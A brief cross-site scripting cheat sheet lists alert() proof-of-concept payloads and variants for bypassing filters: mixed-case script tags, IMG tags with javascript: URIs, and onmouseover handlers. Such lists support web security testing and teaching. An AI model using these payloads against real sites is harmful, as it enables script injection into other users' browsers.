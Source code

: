 # Examples


## No security
`<script>alert(1)</script>`


Imagine that the server sanitizes `<script>`. To bypass that we can use:
`<SCrIpt>alert(2)</ScRiPt>`
`<script type=text/javascript>alert(2)</script>`

### Using the IMG-tag
```
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">
```


### Onmouseover
```
<a onmouseover="alert(2)">d</a>
```
